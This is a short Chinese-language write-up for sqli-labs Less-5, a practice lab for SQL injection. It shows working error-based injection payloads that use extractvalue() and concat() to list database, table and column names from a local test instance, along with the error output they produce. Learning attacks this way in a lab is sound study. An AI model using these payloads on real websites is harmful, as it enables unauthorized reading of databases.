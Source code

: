 

### 5

题目提示输入id：

```
http://127.0.0.1/sqli-labs-master/Less-5/?id=1
#You are in...........
http://127.0.0.1/sqli-labs-master/Less-5/?id=1'
#报错，采用的是'闭合
```



**extractvlaue()**

函数语法：extractvalue(XML_document,XPath_string);

利用原理：如果XPath_string的格式不符合xpath格式就会产生错误，返回参数的信息，而我们通常利用concat()将~与我们注入的语句拼接在一起从而产生错误。

- 爆库名

```
http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and extractvalue(1,concat('~',(select group_concat(schema_name) from information_schema.schemata)))--+
#XPATH syntax error: '~information_schema,challenges,m'
```

- 爆表名

```
http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='库名')))--+
#XPATH syntax error: '~CHARACTER_SETS,COLLATIONS,COLLA'
#XPATH syntax error: '~3wteyx0o1y'
# 
```

- 爆字段名

```
http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema='库名' and table_name='表名')))--+
#XPATH syntax error: '~CHARACTER_SET_NAME,DEFAULT_COLL'
#XPATH syntax error: '~COLLATION_NAME,CHARACTER_SET_NA'
#
# XPATH syntax error: '~id,sessid,secret_9VV5,tryy'

```

**updatexml()方法**

**exp()方法**

**rand()+group()+count()方法**

**BUG方法**

> [https://bugs.mysql.com/bug.php?id=32249](https://link.jianshu.com/?t=https%3A%2F%2Fbugs.mysql.com%2Fbug.php%3Fid%3D32249)
